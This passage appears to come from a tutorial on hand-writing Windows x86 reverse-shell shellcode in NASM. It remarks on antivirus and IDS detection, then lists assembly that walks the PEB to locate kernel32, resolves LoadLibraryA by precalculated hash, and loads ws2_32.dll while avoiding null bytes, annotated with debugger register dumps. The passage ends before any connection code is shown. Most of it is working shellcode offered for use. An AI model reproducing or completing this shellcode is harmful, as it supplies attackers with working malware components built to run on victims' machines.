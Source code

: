 You must note that this could makes our shellcode marked as malicious by Windows Defender AV and others AV and IDS/IPS/ATP agents :)
You could read an interesting article on [Fireeye](https://www.fireeye.com/blog/threat-research/2012/11/precalculated-string-hashes-reverse-engineering-shellcode.html) blog, about this argument.

```nasm
global _start

section .text
_start:

 ; this avoid the NULL bytes producted by calling functions directly
 mov ebp, findSymbolByHash
 mov edi, hashString

getKernel32Base:
    xor ecx, ecx                ; zeroing register ECX
    mul ecx                     ; zeroing register EAX EDX
    mov eax, [fs:ecx + 0x030]   ; PEB loaded in eax
    mov eax, [eax + 0x00c]      ; LDR loaded in eax
    mov esi, [eax + 0x014]      ; InMemoryOrderModuleList loaded in esi
    lodsd                       ; program.exe address loaded in eax (1st module)
    xchg esi, eax               
    lodsd                       ; ntdll.dll address loaded (2nd module)
    mov ebx, [eax + 0x10]       ; kernel32.dll address loaded in ebx (3rd module)
    mov eax, ebx
    
    ; EAX 76140000 kernel32.76140000
    ; ECX 00000000
    ; EDX 00000000
    ; EBX 76140000 kernel32.76140000
    ; ESP 0022FF8C
    ; EBP 0022FF94
    ; ESI 0054190C
    ; EDI 00000000
    ; EIP 00401005 reverse_.00401005

    push 0xec0e4e8e          ; LoadLibraryA hash
    push eax
    call ebp                 ; call findSymbolByHash
 
    ; EAX 76192864 kernel32.LoadLibraryA
    ; ECX 00000000
    ; EDX 00000000
    ; EBX 76140000 kernel32.76140000
    ; ESP 0022FF8C
    ; EBP 0022FF94
    ; ESI 0054190C
    ; EDI 00000000
    ; EIP 00401010 reverse_.00401010

    
getws2_32:
    push 0x61613233                 ; 23
    sub word [esp + 0x2], 0x6161    ; sub aa from aa23_2sw
    push 0x5f327377                 ; _2sw
    push esp                        ; pointer to the string
    call eax                        ; call Loadlibrary and find ws2_32.dll
    mov edx, eax                    ; save winsock handle for future puproses

    ; EAX 75FE0000 OFFSET ws2_32.#332
    ; ECX 77BE316F ntdll.77BE316F
    ; EDX 75FE0000 OFFSET ws2_32.#332
    ; EBX 760C0000 kernel32.760C0000
```